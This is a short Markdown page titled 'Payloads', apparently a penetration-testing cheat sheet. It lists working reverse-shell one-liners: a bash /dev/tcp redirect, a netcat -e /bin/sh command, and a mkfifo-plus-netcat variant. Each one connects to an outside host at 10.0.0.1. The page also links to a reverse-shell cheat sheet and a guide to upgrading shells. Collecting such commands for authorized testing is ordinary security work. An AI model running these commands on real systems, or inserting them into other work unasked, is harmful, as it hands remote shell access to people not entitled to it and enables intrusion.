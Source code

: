 # Payloads

## Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat
```bash
# if -e option is supported
nc -e /bin/sh 10.0.0.1 1234
# if -e is not supported
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Upgrade Shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
